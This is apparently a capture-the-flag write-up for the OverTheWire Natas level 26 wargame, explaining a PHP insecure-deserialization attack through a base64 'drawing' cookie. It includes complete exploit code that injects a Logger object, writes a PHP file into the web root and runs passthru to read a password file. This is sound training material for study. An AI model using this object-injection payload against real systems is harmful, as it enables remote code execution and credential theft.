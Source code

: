 # This is a write-up for Natas - level 26

This level is about exploiting the drawing interface on the main page.

Let's look at the source code:
```php
<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){
        $imgfile="img/natas26_" . session_id() .".png";
        drawImage($imgfile);
        showImage($imgfile);
        storeData();
    }

?>
```
In short, the php code for the page takes a line supplied by the user and overlays that on top of already existing lines.
This happens by taking in data from the get request and from the 'drawing' cookie.

Importantly, the drawing data is continually stored in the cookie using the storeData function.
```php
<?php function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>
```

The existing data is unserialized and decoded, the new drawing data is appended, and the cookie is encoded and serialized again.
I found '$drawing[]=$new_object;' confusing as a beginner in PHP, so I'll explain it: 
- [] means that $drawing is an array.
- = appends data to $drawing, since $drawing already exists.

Now that we understand the drawing cookie, we draw our attention to the Logger class.
Following the flow of the main section, it doesn't appear to do anything.

However, we can exploit the serialization of the cookie to inject a Logger object into the server. Let me outline the steps:

1. Make a Logger object that has a malicious payload in its exitMsg and has a logFile name that we can access
2. Serialize and encode the object
3. Insert the object as the drawing cookie in our browser's DevTools
4. Upon running storeData, the server decodes and unserializes the cookie
5. After unserializing the data, the Logger object is gotten rid of using __destruct(), which is a custom (magic) method of the script
6. During this __destruct call, the payload in exitMsg will be written to the logFile 
7. If the logFile is a .php file, we can execute any php code that was in the exitMsg
8. We can navigate to the logFile in the url bar to retrieve the output of our payload.

With the game plan, you can try solving the exercise on your own, or you can follow the walkthrough below:

Our Logger object needs a $logFile and $exitMsg, and these variables need to be private
```php
<?php
class Logger {
	private $logFile;
	private $exitMsg;
}
$logger = new Logger();
echo serialize($logger); // Just for your viewing, not actually needed
echo base64_encode(serialize($logger));
```

Now, the logger object is serialized and encoded, but it doesn't do anything. To actually make an attack, we need a payload.
```php
<?php
class Logger {
	private $logFile;
	private $exitMsg;

	function __construct(){
            $this->exitMsg= <payload>;
            $this->logFile= <log-file>;
	}
$logger = new Logger();
echo serialize($logger);
echo base64_encode(serialize($logger));
}
```

The __construct() method is an example of a 'magic method' as I described above. It is run automatically as I run 'new Logger();' and it sets the exit message and log file for the object.

Two hints for what the payload and log-file should be:

1. Payload should be some php code that can fetch the password from the file system.
2. Log-file should be in a location that we can acess it and with the .php file ending.

<details>
    <summary>
        Click here for the full code and path
    </summary>

```php
<?php
class Logger {
	private $logFile;
	private $exitMsg;
function __construct(){
	       $this->exitMsg= "<?php echo passthru('cat /etc/natas_webpass/natas27'); ?>";
	       $this->logFile= "/var/www/natas/natas26/img/natas26_myseshpwd.php";
	}

}

$logger = new Logger();
echo serialize($logger);
echo base64_encode(serialize($logger));
?>
```
Now navigate to natas26.natas.labs.overthewire.org/var/www/natas/natas26/img/natas26_myseshpwd.php" to find your password.
</details>
PS: You can run the php file in this folder to help you solve this :D
